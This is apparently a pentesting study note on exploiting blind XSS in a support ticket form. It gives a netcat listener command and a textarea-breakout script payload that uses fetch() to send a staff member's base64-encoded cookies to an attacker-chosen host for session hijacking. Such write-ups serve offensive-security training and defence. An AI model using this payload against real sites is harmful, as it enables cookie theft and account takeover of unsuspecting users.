 ```yaml
---
title: Practical XSS example
---
```


Let's say we want to exploit a [blind-xss](/Knowledge/OffSec/pentesting/blind-xss.md) vulnerability we've found.

We have a Support Ticket system in which we may create tickets, which content `textarea` field is vulnerable to [XSS](/Knowledge/OffSec/pentesting/XSS.md).

We know we're able to run JavaScript code, but we don't have access to the content on our own, so we can't list anything. But we can expand the [payload](/Knowledge/OffSec/glossary/payload.md) to send sensitive content to our own server using [netcat](/Knowledge/OffSec/tools/netcat.md).

Because we're dealing with Support Ticket system, it's reasonable to assume that a staff member will also view this ticket which we could get to execute JavaScript.

Some helpful information to extract from another user would be their cookies, which we could use to elevate our privileges by hijacking their login session.

To do this, our payload will need to extract the user's cookie and exfiltrate it to another webserver server of our choice. Firstly, we'll need to set up a listening server to receive the information:

```sh
$ nc -nlvp 9001
```

Now that we've set up the method of receiving the exfiltrated information, we build the payload:

`</textarea><script>fetch('http://{URL_OR_IP:PORT}?cookie=' + btoa(document.cookie) );</script>`

> [!tip] `btoa()` encodes the victim's cookies with base64.

Once the user opens a ticket, we can decode the cookies.

